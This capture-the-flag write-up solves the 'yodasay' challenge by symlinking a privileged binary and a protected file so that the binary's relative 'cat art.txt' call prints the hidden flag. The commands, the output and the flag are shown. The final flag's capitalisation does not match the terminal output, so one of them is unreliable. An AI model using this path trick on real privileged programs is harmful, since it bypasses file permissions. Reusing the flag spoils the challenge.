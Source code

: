 # yodasay

> Our scouts have discovered the location of an ancient Jedi Temple on the planet Ilum. However, it seems as if the Empire has arrived first. We managed to break into one of their systems, but we aren't able to view the contents of the files. Can you find a way?
> 
> Jedi Temple Terminal

This challenge took me a little bit, there's an executable `yodasay` that will echo what you send in then call `cat art.txt` and I was trying to overflow the buffer to cause it to instead `cat artifact.txt`, but try and I might, I couldn't get it to do that.

Eventually, I tried using symbolic links, which changed the execution directory and got the flag.

```
bash-5.0$ ln -s ../officer/yodasay yodasay
bash-5.0$ ln -s ../officer/artifact.txt art.txt
bash-5.0$ ./yodasay hi
hi, I say
silicon{M1nd_tH053_rE14t1v3_p4th5_i_say}
     \     _____      /
      \   /     \    /
         /   s   \ 
    \   |    i    |   /
     \  |    l    |  /
        |    i    |
    \   |    c    |   /
     \  |    o    |  /
        |    n    |
    \   |    {    |   /
     \  |    M    |  /
        |    1    |
    \   |    n    |   /
     \  |    d    |  /
        |    _    |
    \   |    t    |   /
     \  |    H    |  /
        |    0    |
    \   |    5    |   /
     \  |    3    |  /
        |    _    |
    \   |    r    |   /
     \  |    E    |  /
        |    1    |
    \   |    4    |   /
     \  |    t    |  /
        |    1    |
    \   |    v    |   /
     \  |    3    |  /
        |    _    |
    \   |    p    |   /
     \  |    4    |  /
        |    t    |
    \   |    h    |   /
     \  |    5    |  /
        |    _    |
    \   |    i    |   /
     \  |    _    |  /
        |    s    |
    \   |    a    |   /
     \  |    y    |  /
        |    }    |  
        |      .-~|
        |     /   |
       =============
        |         |
        |         |
        |         |
        \---------/
         )-------(
         (-------)
         )-------(
         (-------)
         )-------(
         (-------)
         )-------(--+
        /---------\ |
        | | | | | | |
        | | | | | | |
        | | | | | | |
        | | | | | |-+
        | | | | | |
        | | | | | |
        | | | | | |
        | | | | | |
        | | | | | |
        | | | | | |
        | | | | | |
        | | | | | |
        LAB_|_|_|_|

# https://asciiart.website/index.php?art=movies/star%20wars
```

Which contains the flag

```
silicon{M1nd_tH053_rE14t1v3_P4th5_i_say}
```
